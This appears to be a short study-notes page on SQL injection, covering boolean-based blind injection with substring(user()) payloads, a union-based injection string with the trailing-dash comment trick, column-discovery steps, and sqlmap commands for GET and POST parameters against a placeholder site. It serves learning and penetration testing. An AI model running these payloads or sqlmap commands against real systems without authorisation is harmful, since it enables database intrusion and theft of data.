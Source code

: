 # SQL Injection

### Boolean Based Blind SQLi

#### user()

It returns name of user currently using the db

#### substring()

It returns a substring of given argument. It takes 3 parameters i.e input string, position of substring and its length.

#### Example

```sql
select substring(user(), 1, 1) = 'r'; // True since username is root
select substring(user(), 1, 1) = 'a'; // False
```

We can iterate over letters of the username by using payloads such as

```sql
' or substring(user(), 1, 1) = 'a
' or substring(user(), 2, 1) = 'b
```

***

### Union Based SQLi

Our target is to make the original query payload empty and using our own payload

```sql
Select description from items where id='' UNION Select user(); -- -
```

* We used a trick i.e third dash after **two dashes and a space**
* This is because most browsers auto remove trailing spaces in the URL, so u add a character after the space

#### Steps to find fields

1. use NULL to find out no of columns
2. use different data types to find out type of data returned

***

### SQLMap

It automates the whole process

#### Get Parameter

```bash
sqlmap -u 'http://website.com/view.php?id=123' -p id --technique=U
```

* \-p tells us which parameter to check
* technique used is Union based attacks

#### Post Parameter

```bash
sqlmap -u <url> --data=<POST STRING> -p parameter --technique=B
```

* technique used is boolean

***
